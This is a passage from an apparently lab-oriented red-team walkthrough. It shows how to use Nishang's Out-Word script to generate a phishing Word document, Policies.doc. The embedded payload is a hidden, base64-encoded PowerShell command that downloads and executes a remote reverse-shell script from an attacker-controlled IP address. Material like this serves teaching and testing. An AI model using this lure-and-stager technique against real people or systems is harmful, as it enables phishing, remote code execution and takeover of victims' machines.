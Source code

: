 ![image](/posts/2023-03-25_red_team01/images/covenant5.png)


- We are going to create a phishing document using a tool called [Out-Word](https://github.com/samratashok/nishang/blob/master/Client/Out-Word.ps1)
- Download the script to a windows machine that has Office installed in order to generate a word document with the embedded payload

{{< alert >}}

Out-Word can only work with a windows machine that has office installed 

{{< /alert >}}

- We execute the commands shown to generate the word document. We utilize the payload we created in the above step to create this file


```powershell
PS C:\Users\s.chisholm\Desktop> . .\Out-Word.ps1
PS C:\Users\s.chisholm\Desktop> Out-Word -Payload "powershell -Sta -Nop -Window Hidden -EncodedCommand aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMAAwAC4ANwAyAC8AcgBlAHYALgBwAHMAMQAnACkA" -OutputFile Policies.doc

```
